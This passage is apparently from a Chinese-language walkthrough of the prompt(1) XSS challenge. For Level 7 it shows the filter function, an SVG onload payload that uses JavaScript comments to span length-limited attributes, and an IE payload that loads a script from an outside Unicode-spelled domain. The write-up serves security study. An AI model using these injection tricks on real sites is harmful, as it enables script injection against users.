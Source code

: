 IE下可以使用vbscript减少字符

```
vbscript:prompt(1)#{"action":1}

```

Level 7
-------

* * *

可以使用js注释绕过。如下：

```
<p class="comment" title=""><svg/a="></p>
<p class="comment" title=""onload='/*"></p>
<p class="comment" title="*/prompt(1)'"></p>

```

### 代码

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}

```

### 答案

34个字符：

```
"><svg/a=#"onload='/*#*/prompt(1)'

```

IE下31个字符

```
"><script x=#"async=#"src="//⒛₨


<p class="comment" title=""><script x="></p>
<p class="comment" title=""async="></p>
<p class="comment" title=""src="//⒛₨"></p>

```

### 背景知识
